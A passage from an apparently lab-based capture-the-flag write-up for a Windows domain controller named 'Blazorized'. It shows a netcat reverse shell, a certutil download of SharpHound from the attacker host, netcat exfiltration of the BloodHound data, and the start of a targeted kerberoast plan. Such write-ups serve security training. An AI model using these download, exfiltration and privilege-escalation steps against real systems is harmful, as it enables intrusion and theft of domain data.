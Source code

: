 ```console
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.22 50130
Microsoft Windows [Version 10.0.17763.5936]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
blazorized\nu_1055
```

# Root
On the machine we see two additional users (`RSA_4810` and `SSA_6010`).

```console
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9756-87FD

 Directory of C:\Users

06/20/2024  06:28 AM    <DIR>          .
06/20/2024  06:28 AM    <DIR>          ..
02/02/2024  04:13 PM    <DIR>          Administrator
02/25/2024  02:41 PM    <DIR>          NU_1055
10/06/2021  02:46 PM    <DIR>          Public
02/01/2024  08:36 AM    <DIR>          RSA_4810
06/19/2024  07:39 AM    <DIR>          SSA_6010
```

## BloodHound Enumeration
Since this is a domain controller and we are a domain user, we can run SharpHound to get more information about the users in the domain and what permissions they have.

```console
C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/SharpHound.exe %TEMP%\SharpHound.exe
PS C:\Users\NU_1055> %temp%\SharpHound.exe -c All --zipfilename "Bloodhound.zip"
```

We wait for the SharpHound tool to finish and then transfer the ZIP file to our machine.
```console
$ nc -l -p 4444 > Bloodhound.zip

C:\Users\NU_1055> %temp%\nc.exe -w 3 10.10.14.4 4444 < 20241109040008_Bloodhound.zip
```

It might be necessary to extract the json files from the ZIP file and converting it to a correct JSON format (using jq). Checking out our results in BloodHound, we see that the user `NU_1055` has the ability to write to the "serviceprincipalname" attribute of the user `RSA_4810`, therefore we are able to perform a targeted kerberoast attack.

![](../assets/images/writeups/blazorized/bloodhound-NU.png)
